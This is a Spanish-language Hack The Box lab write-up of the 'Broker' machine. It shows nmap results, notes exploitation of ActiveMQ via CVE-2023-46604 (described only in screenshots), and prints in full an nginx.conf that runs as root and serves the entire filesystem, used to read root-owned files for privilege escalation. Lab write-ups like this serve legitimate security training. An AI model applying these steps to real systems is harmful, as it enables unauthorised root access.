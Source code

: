 ```yaml
---
title: "Broker Writeup - Hack-The-Box"
date: 2023-08-25
categories: [Writeups, Hack-The-Box]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\Broker.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Broker banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap
```python
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1234/tcp  open  hotline?
1337/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
1883/tcp  open  mqtt
```

### Enumeracion del puerto 80
![img](/assets/img/imagenes/Pasted image 20240106222122.png)
tenemos información sobre la pagina. esto es importante para poder buscar vulnerabilidades o exploits

### buscamos información sobre el framework
![img](/assets/img/imagenes/Pasted image 20240106222624.png)
searchsploit nos indica que tenemos varios sploits  para poder vulnerar este framework asi que haremos una busqueda en internet

### CVE-2023-46604
![img](/assets/img/imagenes/Pasted image 20240106224146.png)

### ejecutamos el exploit
abrimos un servidor en python para poder hacer el llamado del poc.xml y ejecutamos
![img](/assets/img/imagenes/Pasted image 20240106231746.png)
tenemos conexión 

### Escalada de privilegios 
![img](/assets/img/imagenes/Pasted image 20240106232230.png)

### copiamos el archivo nginx.conf al directorio tmp para poder editarlo
```python
user root;
events {
	worker_connections 768;
}
http {
	server {
		listen 9001;
		root /;
		autoindex on;
	}
}
```
si nos da un error podemos cambiar el puerto de listen por otro
![img](/assets/img/imagenes/Pasted image 20240107003240.png)
finalmente podemos hacer un curl al localhost apuntando al puerto listen que especificamos y al directorio donde buscaremos el archivo que necesitamos

### WE ARE ROOT
![img](/assets/img/imagenes/Pasted image 20240130204058.png)